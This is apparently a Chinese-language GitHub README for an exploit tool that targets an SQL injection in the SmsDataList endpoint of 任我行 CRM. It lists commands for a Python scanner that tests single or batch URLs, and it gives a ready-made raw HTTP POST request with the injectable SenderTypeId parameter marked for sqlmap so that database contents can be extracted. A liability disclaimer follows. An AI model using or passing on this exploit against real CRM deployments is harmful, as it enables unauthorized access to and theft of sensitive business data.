


# 任我行 CRM SmsDataList SQL注入

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。


## 工具利用

python3 CRM_sql.py -u http://127.0.0.1:1111 单个url测试

python3 CRM_sql.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

poc：



exp：

将数据包保存为txt用sqlmap可得到数据
```
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.1361.63 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 170

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=00000000*
```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
